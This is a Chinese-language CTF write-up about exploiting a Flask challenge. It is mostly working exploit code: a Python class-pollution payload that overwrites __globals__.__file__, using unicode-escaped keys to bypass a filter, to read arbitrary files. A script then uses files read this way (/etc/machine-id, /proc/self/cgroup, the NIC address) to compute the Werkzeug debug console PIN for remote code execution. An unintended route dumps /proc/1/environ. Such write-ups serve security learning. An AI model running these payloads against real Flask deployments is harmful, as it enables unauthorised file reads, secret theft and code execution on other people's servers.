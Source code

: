 - > 复现
- # 思路
	- 使用[类型污染]([[CTF/Python/Python的原型链污染]])污染`__file__`实现任意读取文件
	- 对`/console`路径打[[CTF/Flask/Debug模式RCE]]
- # 对象类型污染 -> 任意文件读取
	- 污染__globals__下的__file__即可
	- ```python
	  def read_file(pathname):
	  
	      payload = {
	          "username": "123",
	          "password": "123",
	          "__class__": {
	              "__init__": {
	                  "__globals__": {
	                      "__file__": pathname
	                  }
	              }
	          }
	      }
	  
	      payload = json.dumps(payload)
	      payload = payload.replace("__class__", enc_dec.full_urlencode("__class__", head = "\\u00"))
	      payload = payload.replace("__init__", enc_dec.full_urlencode("__init__", head = "\\u00"))
	  
	      r = base_post(url + "register", data = payload)
	      r = base_get(url)
	      return r.text
	  
	  ```
- # 打Flask的debug模式RCE
	- 这题不知道为什么可以通过`/console`访问终端
	- 读文件算pin
		- ```python
		  
		  import hashlib
		  from itertools import chain
		  
		  
		  eth0 = read_file("/sys/class/net/eth0/address")
		  eth0 = str(int("".join(eth0.split(":")), 16))
		  machine_id = read_file("/etc/machine-id").strip()
		  cgp = read_file("/proc/self/cgroup").rpartition("/")[2].strip()
		  
		  rv, num = None, None
		  
		  probably_public_bits = [
		      'root'# 用户名
		      'flask.app',# modname
		      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
		      "/usr/local/lib/python3.10/site-packages/flask/app.py" # getattr(mod, '__file__', None),
		  ]
		  
		  private_bits = [
		      str(eth0),# str(uuid.getnode()),  /sys/class/net/ens33/address
		      machine_id + cgp
		  ]
		  h = hashlib.sha1()
		  for bit in chain(probably_public_bits, private_bits):
		      if not bit:
		          continue
		      if isinstance(bit, str):
		          bit = bit.encode("utf-8")
		      h.update(bit)
		  h.update(b"cookiesalt")
		  
		  cookie_name = f"__wzd{h.hexdigest()[:20]}"
		  
		  if num is None:
		      h.update(b"pinsalt")
		      num = f"{int(h.hexdigest(), 16):09d}"[:9]
		  
		  if rv is None:
		      for group_size in 5, 4, 3:
		          if len(num) % group_size == 0:
		              rv = "-".join(
		                  num[x : x + group_size].rjust(group_size, "0")
		                  for x in range(0, len(num), group_size)
		              )
		              break
		      else:
		          rv = num
		  
		  print(rv)
		  
		  ```
- # 非预期思路
	- 直接读`/proc/1/environ`
		- ```python
		  def read_file(pathname):
		  
		      payload = {
		          "username": "123",
		          "password": "123",
		          "__class__": {
		              "__init__": {
		                  "__globals__": {
		                      "__file__": pathname
		                  }
		              }
		          }
		      }
		  
		      payload = json.dumps(payload)
		      payload = payload.replace("__class__", enc_dec.full_urlencode("__class__", head = "\\u00"))
		      payload = payload.replace("__init__", enc_dec.full_urlencode("__init__", head = "\\u00"))
		  
		      r = base_post(url + "register", data = payload)
		      r = base_get(url)
		      return r.text
		  print(read_file("/proc/1/environ"))
		  
		  ```